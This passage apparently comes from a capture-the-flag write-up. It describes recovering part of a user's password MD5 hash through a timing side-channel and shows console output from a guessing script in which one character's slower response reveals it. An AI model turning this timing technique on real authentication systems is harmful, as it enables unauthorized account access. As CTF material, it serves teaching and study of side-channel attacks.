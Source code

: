 It took some time, but finally I was able to find 10 first characters in MD5 hash of FLAG user password - and when I've sent it I've got the flag. Below are console outputs from sample try after three signs (667) - script shows 4th sign, which is 'e' - timing is ~0.3s more than average, then one of the final try with 667e217666 as the beginning, when times were not changing anymore:

```

$ ./pass_time_check.py 667

sending payload with password: 667a----------------------------
time for a - 1.206054
sending payload with password: 667b----------------------------
time for b - 1.1628
sending payload with password: 667c----------------------------
time for c - 1.123849
sending payload with password: 667d----------------------------
time for d - 1.123673
sending payload with password: 667e----------------------------
time for e - 1.533342
sending payload with password: 667f----------------------------
time for f - 1.123596
sending payload with password: 6670----------------------------
time for 0 - 1.12424
sending payload with password: 6671----------------------------
time for 1 - 1.139995
sending payload with password: 6672----------------------------
time for 2 - 1.209023
sending payload with password: 6673----------------------------
time for 3 - 1.122856
sending payload with password: 6674----------------------------
time for 4 - 1.123731
sending payload with password: 6675----------------------------
time for 5 - 1.124603
sending payload with password: 6676----------------------------
time for 6 - 1.122691
sending payload with password: 6677----------------------------
time for 7 - 1.12402
sending payload with password: 6678----------------------------
time for 8 - 1.123192
sending payload with password: 6679----------------------------
time for 9 - 1.1241



$ ./pass_time_check.py 667e217666

sending payload with password: 667e217666a---------------------
time for a - 3.317382
sending payload with password: 667e217666b---------------------
time for b - 3.274132
sending payload with password: 667e217666c---------------------
time for c - 3.376334
sending payload with password: 667e217666d---------------------
time for d - 3.273846
sending payload with password: 667e217666e---------------------
time for e - 3.274608
sending payload with password: 667e217666f---------------------
time for f - 3.27328
sending payload with password: 667e2176660---------------------
time for 0 - 3.213485
sending payload with password: 667e2176661---------------------
time for 1 - 3.234123
sending payload with password: 667e2176662---------------------
time for 2 - 3.272356
```